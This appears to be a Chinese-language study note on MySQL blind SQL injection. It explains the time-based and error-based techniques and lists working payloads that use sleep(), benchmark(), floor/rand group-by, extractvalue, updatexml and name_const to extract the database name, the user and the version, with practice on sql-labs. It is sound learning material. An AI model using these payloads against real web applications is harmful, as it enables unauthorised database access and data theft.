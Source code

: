 ##### 基于时间的 SQL 盲注

* 基本原理：主要结合条件判断和sleep()函数，对页面返回的时间进行估计，从而根据自己的判断条件猜测内容。**前面两种盲注与基于时间的注入相比，或多或少都依赖于回显，而基于时间的注入完全不依赖于回显，而且前两种注入的注入点都要借助回显来发现**，时间注入不许要回显，我们判断某个注入点是否可以注入时，时间注入使我们又多了一种手段。
* 实例：sql-labs 
* 总结：

```sql
If(ascii(substr(database(),1,1))>115,0,sleep(5))%23 -- 条件为假，执行sleep
# 注意sleep()函数的特性和逻辑与运算的特性,以select * from users where id=1 or sleep(1)为例,假设users有十个记录：1，逻辑判断符or的特性是前面为真时就无须判断后面的，所以除了if三目运算符外，可以借助逻辑判断符的这个特性结合sleep()进行时间注入；2，在select users表时，每一个记录都会检查是否符合where后的条件，也就是说sleep会执行多次。

UNION SELECT IF(SUBSTRING(current,1,1)=CHAR(119),BENCHMARK(5000000,ENCODE(‘M SG’,’by 5 seconds’)),null) FROM (select database() as current) as tb1;  -- benchmark(次数，表达式)是一个用于测试函数性能的函数，表示让一个表达式/函数执行count次，这会占用较多CPU比sleep更容易暴露。


select * from users where id="-1" or 5<length(database())<10 or sleep(1);
# 关于连续比较 5<length(database())<10，这样的写法一般是不正确的，<是比较运算符，5<length(database())的结果会是0或者1
```

##### 基于报错的 SQL 盲注

* 基本原理：查询结果不回显但是报错会回显，这就引出一个问题，我们如何通过注入得到我们想要的数据，基于报错的盲注就是通过精心构造sql语句使报错中有我们需要的信息。
* 实例：
* 总结：几个常见的报错语句

```sql
Select 1,count(*),concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand(0)*2)) as a from information_schema.columns group by a; -- error:ERROR 1062 (23000): Duplicate entry '::root@localhost::1' for key 'group_key'
# 注意(select user())的括号

select count(*) from information_schema.tables group by concat(user(),floor(rand(0)*2));
select count(*) from (select 1 union select null union select !1)a group by concat(version(),floor(rand(0)*2))    -- 这里没有用到information_schema
select min(@a:=1) from information_schema.tables group by concat(user(),@a:=(@a+1)%2)
# 以上关键在于floor() group by concat()，报错的具体原因网上有很多解释，但是鲜有解答清楚的，注意需要报错回显的内容可以用(select ...)，但是select无法使用group_concat显示一整个字段（这样不会报错），只能使用limit一行一行得到结果

select exp(~(select * from(select user())a)); -- 注意版本，目前试过的5.5.62和10.5.9-MariaDB-11不行，有时候要多试几次
# 产生原因在于double数据溢出

select !(select * from (select user())x) - ~0; -- 同样注意版本
# begint溢出

select extractvalue(1,concat(0x7e,(select @@version),0x7e)) -- 两个参数
select updatexml(1,concat(0x7e,(select @@version),0x7e),1) -- 三个参数
# 利用xpath语法报错
# 注意这里的报错输出有长度限制

select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x;
# 函数name_const(字段名，字段值) 等同于  字段值 as 字段名这里用重复的字段名报错，字段名为字符串，字段值为常量值。
# select NAME_CONST(version(),1),NAME_CONST(version(),1)需作为子表，name_const无法以select的结果作为参数，与前面的不同
# 三点需要注意：1，报错的原因是(select NAME_CONST(version(),1),NAME_CONST(version(),1))x产生的临时表；2，临时表的产生必须要有(select ...)x或者(select ...) as x的语法，仅有select是不行的，必须给其命名；3，使用name_const(字符串,值)的必要性，name_const()的作用是将字符串作为字段名，值作为字段下的一个值，字符串这里就可以使用一些函数或者变量，在报错的时候就会直接回显这个函数或者变量的字符串。但是(select version(),version())x这种却不行，这个表确实会因为字段重复而报错，但是产生的这个表的字段名是version();
```
